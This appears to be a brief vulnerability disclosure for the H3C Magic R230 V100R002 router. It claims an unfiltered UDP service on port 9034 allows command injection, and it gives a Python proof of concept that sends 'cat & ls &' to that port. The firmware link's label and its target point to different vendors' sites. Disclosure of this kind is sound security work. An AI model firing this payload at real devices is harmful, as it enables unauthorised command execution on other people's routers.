


#  H3C Magic R230 V100R002 was discovered to contain a  command injecting.

### Product Information

Product: H3C Magic R230 Firmware Version: V100R002 

Manufacturer's website information：https://www.h3c.com/cn/ 

Firmware download address ：[https://www.h3c.com/cn/d_202211/1719339_30005_0.htm](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

H3C Magic R230 V100R002's udpserver opens port 9034, allowing attackers to execute arbitrary commands.


The input is not filtered



### POC

```python

import socket

Ip="0.0.0.0" 
Port=9034

msg=b"cat & ls &"
server_address=(Ip,Port)

udp_socket=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_socket.sendto(msg,server_address)

udp_socket.close()


```


